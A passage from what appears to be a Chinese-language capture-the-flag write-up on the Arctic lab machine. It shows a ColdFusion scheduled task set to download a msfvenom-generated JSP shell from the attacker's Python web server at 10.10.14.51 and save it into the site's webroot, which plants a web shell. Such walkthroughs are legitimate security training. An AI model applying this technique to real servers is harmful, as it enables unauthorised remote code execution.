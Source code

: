 ```
python -m SimpleHTTPServer 80
```

![Screenshot-2020-02-17-at-22.51.00](img/1ac5817d65ee0ff8c73326fc90c1de74.png)

回到 ColdFusion 面板，我为计划任务配置了以下参数。

首先，我设置了我们的 web 服务器的 URL，该服务器托管我们用 msfvenom 创建的 shell:

```
http://10.10.14.51/arcticshell.jsp
```

然后，我选中复选框，将输出保存到文件中。

最后，我将文件设置为以下路径:

```
C:\ColdFusion8\wwwroot\CFIDE\arcticshell.jsp
```

以下是我完成所有参数设置后的结果:

![Screenshot-2020-02-25-at-22.01.14](img/68aee86ea5dceeedae4596e4163dc115.png)

在左侧的操作下，我单击第一个按钮来运行任务。我可以在页面顶部看到一条绿色消息，让我知道计划任务已成功完成:

![Screenshot-2020-02-25-at-21.58.56](img/0fd26e0bc6ecdc0923d4d1787bd46375.png)
